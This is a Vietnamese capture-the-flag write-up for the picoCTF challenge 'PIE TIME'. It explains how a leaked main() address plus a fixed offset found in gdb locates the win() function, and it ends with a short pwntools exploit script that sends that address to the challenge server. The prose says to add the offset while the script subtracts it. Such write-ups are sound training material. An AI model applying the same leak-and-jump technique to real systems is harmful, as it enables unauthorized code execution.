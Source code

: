 # PIE TIME
Challenge cung cấp file elf cùng với mã nguồn. Mục tiêu là xâm nhập vào hàm `win()` để in ra flag.

`file` check:
![alt text](image.png)
<br>
`checksec`:
![alt text](image-1.png)
<br>
Khi chạy chương trình, ta sẽ được cung cấp địa chỉ của hàm `main(). Sau đó ta sẽ được yêu cầu nhập vào một xâu hex, ta sẽ được nhảy tới địa chỉ mà ta vừa nhập vào. Như vậy, mục tiêu là bypass cơ chế `PIE` để truy cập vào hàm `win()`, từ đó lấy được thông tin `flag` <br>
`info functions`:
![alt text](image-2.png)
Dùng `gdb` để xem địa chỉ tương đối của các hàm, ta dễ dàng tính ra offset giữa hàm `main()` và `win()` bằng `0x96`. <br>
Tới giờ thì mọi việc rất đơn giản, chỉ cần lấy địa chỉ hàm `main()` đã được cấp sẵn, sau đó cộng với `offset` là ra được địa chỉ hàm `win()`. Nhập địa chỉ này vào và ta sẽ có được flag. <br>
Ở đây tôi đã viết script để tự động hoá quá trình này:

```python
from pwn import *

host = "rescued-float.picoctf.net"
port = 52331

# p = process("./vuln")
p = remote(host, port)

offset = 0x96

p.recvuntil(b'Address of main: ', drop=True)
main_addr = p.recvuntil(b'\n', drop=True)
win_addr = int(main_addr.decode(), 16) - offset
print(main_addr)
print(hex(win_addr))

payload= hex(win_addr)

p.sendline(payload)
```
![alt text](image-3.png)
